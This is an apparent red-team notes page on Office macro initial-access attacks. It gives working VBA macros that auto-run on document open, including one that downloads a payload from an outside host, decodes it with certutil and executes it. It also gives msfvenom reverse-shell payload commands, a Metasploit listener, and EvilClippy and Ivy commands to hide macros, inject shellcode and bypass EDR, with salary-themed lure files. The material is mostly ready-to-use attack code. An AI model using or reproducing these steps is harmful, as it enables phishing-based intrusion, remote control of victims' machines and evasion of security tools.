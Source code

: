 # Macro Attack

***

`Macro Attack` is a piece of malicious code written in the same macro language used in everyday applications, such as Microsoft Word, Excel, and Powerpoint. The attack code commonly hides in documents and spreadsheets and is activated as soon as you open the file.

### Macro Support

```cmd
assoc | findstr /i word
assoc | findstr /i  excel
assoc | findstr /i  powerp 
```

### Simple Macro

salary.docx

```powershell
Sub AutoOpen()
    Nooranet
End Sub
Sub Nooranet()
  MsgBox "Download Missing Font Automatic", vbOKOnly, "Missing Font"
  a = Shell("E:\Intial-Access\Macro\screen.cmd", vbHide)
End Sub
```

### Run with com object

salaray-1401.xslm

```powershell
Sub Auto_Open()
    DownloadAndExec
End Sub
Sub DownloadAndExec()
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "http://nooranetred.com/edr.cert", False
xHttp.Send
With bStrm
.Type = 1 '//binary
.Open
.write xHttp.responseBody
.savetofile "edr.cert", 2 '//overwrite
End With
Shell ("cmd /c certutil -decode edr.cert edr.hta & start edr.hta")
End Sub
```

## Tips :

#### edr.hta

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f hta-psh > /var/www/html/cert.hta 
```

##### Encode as byte

 edr.cert

 encode-base64.ps1

```powershell
$raw = Get-Content -path edr.hta -Encoding Byte
$b64 =[system.Convert]::TOBase64String($raw)
$b64  | Out-File E:\Initial-Access\Macro\edr.cert
```

#### Listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

### Evil Clippy

A cross-platform assistant for creating malicious MS Office documents. 
Can hide VBA macros, stomp VBA code (via P-Code) and confuse macro 
analysis tools. Runs on Linux, OSX and Windows.

Evil Clippy uses the [OpenMCDF library](https://github.com/ironfede/openmcdf/) to manipulate MS Office Compound File Binary Format (CFBF) files

https://github.com/outflanknl/EvilClippy

##### Hidden macro

```
Evilclippy.exe -g  secret-salary.xlsm
```

```
Evilclippy.exe -gg  secret-salary.xlsm
```

##### Lock Protection

```
Evilclippy.exe -u secret-salary.xlsm
```

```
Evilclippy.exe -uu secret-salary.xlsm
```

### IVY

`Ivy` is a payload creation framework for the execution of arbitrary VBA 
(macro) source code in memory. Ivy’s loader does this by abusing 
programmatical access in the VBA object environment to load, decrypt, 
and execute shellcode

https://github.com/optiv/Ivy

* staged

        vba shellcode    

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f vbs -o /var/www/html/shell.vbs    
```

* stagedless

        raw shell code

```bashscript
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443  -f raw > shell.bin
```

#### Staged Inject payload

```
Ivy -Ix86 shell.vbs  -P Inject -O SampleInject.js
```

#### Stageless Inject payload

```
Ivy -stageless -Ix86 shell.bin -P Local -O stageless.js
```

#### One liner commander

```
Ivy --Ix86 shell.bin -P Inject -O test.png -stageless
```

```
cscript //E:jscript test.png
```

#### bypass EDR

```visual-basic
./Ivy -stageless -Ix86 shell.vbs -P Inject -unhook -O stageless.js
```